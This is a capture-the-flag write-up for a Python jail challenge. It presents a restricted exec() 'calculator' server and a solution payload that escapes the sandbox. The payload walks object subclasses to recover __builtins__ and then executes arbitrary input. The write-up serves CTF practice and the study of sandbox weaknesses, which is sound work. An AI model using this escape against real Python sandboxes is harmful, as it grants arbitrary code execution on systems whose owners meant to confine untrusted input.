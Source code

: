 # nameless jail

made by other quasar and A~Z

## challenge

server.py
```py
#!/usr/bin/env python3
import dis

print("Welcome to the python calculator!", "Due to hardware restrictions we allow only one variable.", sep='\n')

if __name__ == '__main__':
    try:
        math = input('> ')
        info = dis.code_info(math).split('\n')
        assert 'code object' not in ''.join(info)

        if 'Names:' in info:
            for line in info[info.index('Names:'):]:
                assert '1:' not in line

        exec(math, { '__builtins__': None }, results := {})
        for var, res in results.items():
            print(f"{var} = {res}")

    except Exception as e:
        raise e
        print("smh")
```

## solution

Uses a single name (`__getattribute__`) to access loaded modules and load `os`. we use a dictionary here, for example

```py
__getattribute__={}
__getattribute__['g']=None.__getattribute__('__class__').__getattribute__
__getattribute__['t']=__getattribute__['g']((),'__class__')
__getattribute__['o']=__getattribute__['g'](__getattribute__['t'],'__mro__')[-1]
__getattribute__['wp']=__getattribute__['g'](__getattribute__['o'],'__subclasses__')()[132]
__getattribute__['i']=__getattribute__['g'](__getattribute__['wp'],'__init__')
__getattribute__['b']=__getattribute__['g'](__getattribute__['i'],'__globals__')['__builtins__']
__getattribute__['b']['exec'](__getattribute__['b']['input'](), {'__builtins__':__getattribute__['b']})
```

